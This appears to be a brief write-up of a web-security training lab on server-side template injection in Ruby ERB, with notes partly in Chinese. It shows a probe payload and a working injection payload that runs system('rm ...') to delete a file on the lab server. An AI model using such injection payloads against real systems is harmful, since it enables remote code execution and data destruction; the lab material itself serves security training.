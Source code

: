 # Lab: Basic server-side template injection

This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

## SSTI
* 訪問第一個商品的時候，會跳出 message，存在 ERB template injection
```
payload = https://acde1fdc1ef983aec05d072f00a50015.web-security-academy.net/?message=%3C%=%207%20*%207%20%%3E
```
```
payload = https://acde1fdc1ef983aec05d072f00a50015.web-security-academy.net/?message=<%=%20system("rm%20/home/carlos/morale.txt")%20%>
```